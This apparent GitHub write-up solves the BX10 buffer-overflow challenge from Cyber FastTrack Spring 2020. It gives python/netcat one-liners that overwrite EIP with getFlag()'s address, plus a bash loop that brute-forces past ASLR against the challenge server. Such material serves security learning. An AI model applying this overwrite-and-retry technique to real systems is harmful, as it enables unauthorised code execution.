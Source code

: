 # Cyber FastTrack Spring 2020- BX10 Solution
In this challenge, we use buffer overflow to display the flag.\
BX10_1.PNG\
![image info](BX10_1.PNG)
* This is the challenge for BX10.

BX10_2.PNG\
![image info](BX10_1.PNG)
* if we put in a lot of inputs, such as 26 characters, it prints out `Segmentation fault EIP` error message and then a message of `Backtrace in main(), test call getFlag() at` an address.
* In my case, I have `Segmentation falut EIP 0x45454545` and `Backtrace in main(), test call getFlag() at 0x8fccd65`
* We need to change the EIP or the return address to 0x8fccd65 in order to execute the getFlag() function.

BX10_3.PNG\
![image info](BX10_2.PNG)
* It was similar to [BM02](https://github.com/koc777/CyberFastTrack_Spring2020/tree/main/BM02). We send a payload to the server and see what it returns
* We tried 30 characters of 'E' and the desired return address.
```python
python -c "print 'E'*30+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We tried 25 characters of 'E' and the desired return address.
```python
python -c "print 'E'*25+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We used 20 characters of 'E' and then the return address. We finally changed the EIP address to 0x8fccd65.
```python
python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* Notice that, the getFlag() address is different every time we send the payload to the server. It is because the developers have enabled ASLR which is common in software. However, it appears that the address space is limited because the getFlag() address would repeat if we send a large amount of payload to the server.

BX10_4.PNG\
![image info](BX10_4.PNG)
* Write a bash script that repeat that process of sending the payload to the server and then output the result to a text file 500 times.
```python
#!/bin/bash
for i in {0..500}
do
  python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015 >> OUTPUT.txt
done
```

BX10_5.PNG\
![image info](BX10_5.PNG)
* Search for `FLAG:` and you will find the flag `postman_stack`